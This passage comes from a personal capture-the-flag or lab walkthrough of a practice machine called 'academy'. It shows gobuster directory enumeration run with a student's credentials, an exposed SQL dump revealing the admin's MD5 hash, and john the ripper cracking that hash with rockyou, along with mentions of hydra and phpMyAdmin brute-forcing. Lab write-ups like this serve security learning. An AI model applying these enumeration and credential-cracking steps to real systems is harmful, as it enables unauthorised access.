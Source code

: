 - After attempting this I realized that the web app was redirecting to `phpmyadmin/index.php`, and it was obtaining a session cookie from `phpmyadmin` that was being used for auth. I could have done a two stage attack (where I first have `burpsuite` get the session cookie from `phpmyadmin` then attempt to bruteforce a login to `phpmyadmin/index.php` using the session cookie). But I don't have burpsuite pro, which would have been necessary to use macros from what I could see, so this would have been an inefficient lift.
 
I decided to pivot to a hydra attack to bruteforce `grimmie`'s password on SSH, since I had a username, but this also did not work.

Then I looked at what I knew, and decided I knew how to get into `academy` for sure, so maybe I could re-enumerate passing in the password and REGNO as the username in `gobuster`

```bash
gobuster dir -U 10201321 -P thxforlettingmein -u http://192.168.109.131/academy -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.109.131/academy
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Auth User:               10201321
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 326] [--> http://192.168.109.131/academy/admin/]
/assets               (Status: 301) [Size: 327] [--> http://192.168.109.131/academy/assets/]
/includes             (Status: 301) [Size: 329] [--> http://192.168.109.131/academy/includes/]
/db                   (Status: 301) [Size: 323] [--> http://192.168.109.131/academy/db/]
Progress: 220558 / 220558 (100.00%)
===============================================================
Finished
===============================================================

```

- `academy/admin` didn't work, because the student I was logging in as wasn't an admin. However `academy/db` yielded their SQL db which has a listing for the admin's password hash

4. *PrivEsc*:
```bash
INSERT INTO `admin` (`id`, `username`, `password`, `creationDate`, `updationDate`) VALUES
(1, 'admin', '21232f297a57a5a743894a0e4a801fc3', '2020-01-24 16:21:18', '03-06-2020 07:09:07 PM')
```

- running john...
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 crackthis.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
admin            (?)     
1g 0:00:00:00 DONE (2025-10-17 00:05) 100.0g/s 1996Kp/s 1996Kc/s 1996KC/s clyde1..jonel
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 

```
